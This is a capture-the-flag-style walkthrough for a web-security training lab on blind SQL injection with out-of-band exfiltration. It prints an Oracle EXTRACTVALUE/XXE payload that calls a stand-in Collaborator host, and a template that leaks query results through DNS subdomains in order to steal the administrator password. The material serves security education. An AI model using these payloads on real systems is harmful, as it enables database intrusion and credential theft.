



# Lab 17: Blind SQL injection with out-of-band data exfiltration

## Statement

*This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.*

*The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.*

*The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.*

*To solve the lab, log in as the `administrator` user.*

## Walkthrough

We start this lab like any other. We perform different injection tests in various fields but find nothing. We can then try a **DNS lookup**. For this, we will use Burp Collaborator. We will try with the queries provided in the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

Let's first try the query for Oracle databases.

```sql
UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Some characters like `;` and `%` conflict when making the request. To resolve this, we can simply URL encode them.

Now all we have to do is replace `BURP-COLLABORATOR-SUBDOMAIN` with our domain. To obtain it, we will go to the `Collaborator` tab and click on `Copy to clipboard`.



After sending the request, we will receive a 200 OK. We must return to the `Collaborator` tab and click on `Poll Now`.


We will see that the following interaction has arrived.



If we now modify the query and modify the subdomain by adding anything followed by a dot, for example `test.`



When we `Poll now` we observe the following.


Now instead of putting any word we can use the typical Oracle syntax to extract data from the database. To do this we will replace `test.` with the following:

```sql
'||(SELECT YOUR-QUERY-HERE)||'.
```

Now we can introduce a query to get the password of the administrator user.


When we `Poll now` we will see the password. Now we can log in as the `administrator` user to complete the lab.


---
<div align="center">
  <a href="../Lab-16/README.md">⬅️ Previous Lab</a>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
  <a href="../README.md">Next Lab ➡️</a>
</div>